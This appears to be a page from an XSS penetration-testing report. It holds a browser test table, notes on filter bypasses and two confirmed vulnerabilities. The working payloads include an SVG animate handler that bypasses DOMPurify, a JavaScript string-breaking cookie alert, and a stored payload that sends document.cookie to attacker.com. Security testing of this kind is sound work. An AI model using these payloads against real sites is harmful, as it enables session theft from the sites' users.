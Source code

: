 ### Browser-Specific Tests

|Browser|Payload|Input Vector|Result|Notes|
|---|---|---|---|---|
|Chrome|`<svg><animate onbegin=alert(1) attributeName=x>`|status_message|Success|Executed successfully|
|Firefox|`<svg><animate onbegin=alert(1) attributeName=x>`|status_message|Success|Executed successfully|
|Safari|`<svg><animate onbegin=alert(1) attributeName=x>`|status_message|Success|Executed successfully|
|Edge|`<svg><animate onbegin=alert(1) attributeName=x>`|status_message|Success|Executed successfully|

## 7. Iteration Analysis

### Successful Bypass Patterns

- Common attributes of successful payloads: SVG animation events not properly sanitized
- Filter weaknesses identified:
    - JavaScript context in search_query parameter vulnerable to string breaking
    - SVG animate elements bypass DOMPurify configuration
    - Null byte tricks work in search_query parameter
- Consistent bypasses: SVG animation events and JavaScript context injection in search

### Refined Testing Strategy

- New assumptions based on results: DOMPurify might be using outdated configuration
- Modified payloads to try:
    - More HTML5 animation elements
    - Additional event handlers on SVG elements
    - Test other JavaScript contexts for similar weaknesses
- Next iteration focus areas:
    - Testing stored XSS via user profile
    - Testing for DOM-based XSS in search functionality
    - Testing for blind XSS in admin-visible feedback

## Confirmed Vulnerabilities

### Vulnerability 1

- **Location**: Search functionality
- **Input Vector**: search_query parameter
- **Context**: JavaScript string variable
- **Working Payload**: `';alert(document.cookie)//`
- **Filters Bypassed**: Input is directly inserted into JavaScript without proper escaping
- **Impact**: Allows execution of arbitrary JavaScript in user's browser

### Vulnerability 2

- **Location**: User status message
- **Input Vector**: status_message in profile settings
- **Context**: HTML context in profile display
- **Working Payload**: `<svg><animate onbegin=fetch('https://attacker.com/steal?cookie='+document.cookie) attributeName=x>`
- **Filters Bypassed**: DOMPurify configuration allows SVG animate elements
- **Impact**: Stored XSS affects all users viewing profiles with malicious status messages
